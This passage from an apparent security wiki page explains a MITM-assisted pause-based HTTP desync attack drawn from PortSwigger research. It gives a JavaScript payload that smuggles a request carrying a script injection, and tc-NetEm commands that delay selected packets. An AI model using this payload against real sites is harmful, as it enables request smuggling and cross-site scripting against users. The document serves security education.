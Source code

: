 ### MITM Exploitation

It's apparently **not possible to stop a request from the browser** in order to exploit a Pause-desync vulnerability. However, you could always **perform a MITM attack to pause a request** sent by the browser. Notice that this attack **doesn't rely on decrypting** any traffic.

The attack flow is very **similar to a regular client-side desync attack**. The user visits an attacker-controlled page, which issues a series of **cross-domain requests** to the target application. The **first HTTP** request is deliberately padded to be so **large** that the operating system **splits it into multiple TCP packets**, enabling an active **MITM to delay the final packet**, triggering a pause-based desync. Due to the padding, the **attacker** can **identify** which **packet to pause** simply based on the **size**.

From the client-side it looks like a regular client-side desync using the HEAD gadget, aside from the request padding:

```javascript
let form = document.createElement('form')
form.method = 'POST'
form.enctype = 'text/plain'
form.action = 'https://x.psres.net:6082/redirect?'+"h".repeat(600)+ Date.now()
let input = document.createElement('input')
input.name = "HEAD / HTTP/1.1\r\nHost: x\r\n\r\nGET /redirect?<script>alert(document.domain)</script> HTTP/1.1\r\nHost: x\r\nFoo: bar"+"\r\n\r\n".repeat(1700)+"x"
input.value = "x"
form.append(input)
document.body.appendChild(form)
form.submit()
```

On the attacker system performing the blind MITM, the delay was implemented using tc-NetEm:

```bash
# Setup
tc qdisc add dev eth0 root handle 1: prio priomap

# Flag packets to 34.255.5.242 that are between 700 and 1300 bytes
tc filter add dev eth0 protocol ip parent 1:0 prio 1 basic \
match 'u32(u32 0x22ff05f2 0xffffffff at 16)' \
and 'cmp(u16 at 2 layer network gt 0x02bc)' \
and 'cmp(u16 at 2 layer network lt 0x0514)' \
flowid 1:3

# Delay flagged packets by 61 seconds
tc qdisc add dev eth0 parent 1:3 handle 10: netem delay 61s
```

## **References**

* All the information of this post was taken from [https://portswigger.net/research/browser-powered-desync-attacks](https://portswigger.net/research/browser-powered-desync-attacks)

<details><summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️</strong> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
